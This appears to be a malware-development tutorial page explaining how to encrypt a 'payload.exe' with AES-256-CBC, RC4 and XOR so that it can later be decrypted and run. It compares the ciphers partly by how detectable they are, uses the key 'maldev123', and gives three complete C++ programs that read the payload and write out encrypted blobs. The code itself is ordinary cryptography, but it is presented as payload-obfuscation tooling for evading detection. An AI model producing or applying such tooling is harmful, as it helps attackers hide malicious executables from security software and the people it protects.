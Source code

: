 To **implement AES, RC4, and XOR encryption** for a `payload.exe` file, you need to follow these steps:

---

## **1. Overview of Encryption Techniques**
| **Encryption Method**                  | **Key Features**                                            | **Pros**                            | **Cons**                                      |
| -------------------------------------- | ----------------------------------------------------------- | ----------------------------------- | --------------------------------------------- |
| **AES (Advanced Encryption Standard)** | Uses **128/192/256-bit keys**, operates in **CBC/GCM mode** | Strong encryption, widely supported | Can be detected if using WinAPIs (bcrypt.dll) |
| **RC4 (Rivest Cipher 4)**              | **Stream cipher**, uses XOR operations                      | Fast, simple, bidirectional         | Weak, vulnerable to cryptanalysis             |
| **XOR (Exclusive OR)**                 | Uses a **single-byte or multi-byte key** for XOR encoding   | Fast, lightweight, no dependencies  | Easily brute-forced                           |

---

## **2. Mermaid Diagram: Payload Encryption Workflow**
```mermaid
graph TD
    A[Original Payload.exe] -->|Encrypt with XOR| B[XOR Encrypted Payload]
    A -->|Encrypt with RC4| C[RC4 Encrypted Payload]
    A -->|Encrypt with AES| D[AES Encrypted Payload]
    
    B -->|Execution| E[Decrypt and Run]
    C -->|Execution| F[Decrypt and Run]
    D -->|Execution| G[Decrypt and Run]
```
---

## **3. Steps to Implement Encryption in `payload.exe`**
### **3.1 Encrypting and Decrypting with AES**
To encrypt `payload.exe` using **AES256-CBC**, follow this approach:

### **Encryption**
```cpp
#include <windows.h>
#include <stdio.h>
#include <bcrypt.h>

#pragma comment(lib, "bcrypt.lib")

#define KEYSIZE 32
#define IVSIZE 16

void EncryptPayload(PBYTE pPayload, DWORD dwSize, PBYTE pKey, PBYTE pIV, PBYTE* pEncrypted, DWORD* pEncryptedSize) {
    BCRYPT_ALG_HANDLE hAlgorithm = NULL;
    BCRYPT_KEY_HANDLE hKeyHandle = NULL;
    NTSTATUS status;
    DWORD cbResult, cbKeyObject, cbCipherText;

    status = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
    BCryptSetProperty(hAlgorithm, BCRYPT_CHAINING_MODE, (PBYTE)BCRYPT_CHAIN_MODE_CBC, sizeof(BCRYPT_CHAIN_MODE_CBC), 0);

    status = BCryptGetProperty(hAlgorithm, BCRYPT_OBJECT_LENGTH, (PBYTE)&cbKeyObject, sizeof(DWORD), &cbResult, 0);
    PBYTE pbKeyObject = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbKeyObject);

    status = BCryptGenerateSymmetricKey(hAlgorithm, &hKeyHandle, pbKeyObject, cbKeyObject, pKey, KEYSIZE, 0);
    
    status = BCryptEncrypt(hKeyHandle, pPayload, dwSize, NULL, pIV, IVSIZE, NULL, 0, &cbCipherText, BCRYPT_BLOCK_PADDING);
    *pEncrypted = (PBYTE)HeapAlloc(GetProcessHeap(), 0, cbCipherText);
    status = BCryptEncrypt(hKeyHandle, pPayload, dwSize, NULL, pIV, IVSIZE, *pEncrypted, cbCipherText, &cbResult, BCRYPT_BLOCK_PADDING);

    *pEncryptedSize = cbResult;
    BCryptDestroyKey(hKeyHandle);
    BCryptCloseAlgorithmProvider(hAlgorithm, 0);
    HeapFree(GetProcessHeap(), 0, pbKeyObject);
}

int main() {
    BYTE key[KEYSIZE] = { 0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88, 0x99, 0xAA, 0xBB, 0xCC, 0xDD, 0xEE, 0xFF, 0x00, 
                          0x10, 0x20, 0x30, 0x40, 0x50, 0x60, 0x70, 0x80, 0x90, 0xA0, 0xB0, 0xC0, 0xD0, 0xE0, 0xF0, 0x00 };
    BYTE iv[IVSIZE] = { 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F, 0x10 };
    
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    PBYTE pEncrypted;
    DWORD dwEncryptedSize;
    EncryptPayload(pPayload, dwSize, key, iv, &pEncrypted, &dwEncryptedSize);

    hFile = CreateFile("payload_encrypted_aes.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pEncrypted, dwEncryptedSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);
    HeapFree(GetProcessHeap(), 0, pEncrypted);

    return 0;
}
```

---

### **3.2 Encrypting and Decrypting with RC4**
#### **RC4 Encryption**
```cpp
#include <windows.h>
#include <stdio.h>
#include <string.h>

void RC4EncryptDecrypt(unsigned char* data, size_t dataSize, unsigned char* key, size_t keySize) {
    unsigned char s[256];
    unsigned int i, j = 0, temp;
    for (i = 0; i < 256; i++) s[i] = i;
    for (i = 0; i < 256; i++) {
        j = (j + s[i] + key[i % keySize]) % 256;
        temp = s[i];
        s[i] = s[j];
        s[j] = temp;
    }
    
    i = j = 0;
    for (size_t k = 0; k < dataSize; k++) {
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        temp = s[i];
        s[i] = s[j];
        s[j] = temp;
        data[k] ^= s[(s[i] + s[j]) % 256];
    }
}

int main() {
    unsigned char key[] = "maldev123";
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    RC4EncryptDecrypt(pPayload, dwSize, key, strlen((char*)key));

    hFile = CreateFile("payload_encrypted_rc4.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);

    return 0;
}
```

---

### **3.3 Encrypting and Decrypting with XOR**
```cpp
#include <windows.h>
#include <stdio.h>

void XORCipher(unsigned char* data, size_t dataSize, unsigned char key) {
    for (size_t i = 0; i < dataSize; i++)
        data[i] ^= key;
}

int main() {
    unsigned char key = 0xAA;
    HANDLE hFile = CreateFile("payload.exe", GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    DWORD dwSize = GetFileSize(hFile, NULL);
    PBYTE pPayload = (PBYTE)HeapAlloc(GetProcessHeap(), 0, dwSize);
    ReadFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);

    XORCipher(pPayload, dwSize, key);

    hFile = CreateFile("payload_encrypted_xor.bin", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    WriteFile(hFile, pPayload, dwSize, NULL, NULL);
    CloseHandle(hFile);
    HeapFree(GetProcessHeap(), 0, pPayload);

    return 0;
}
```

---

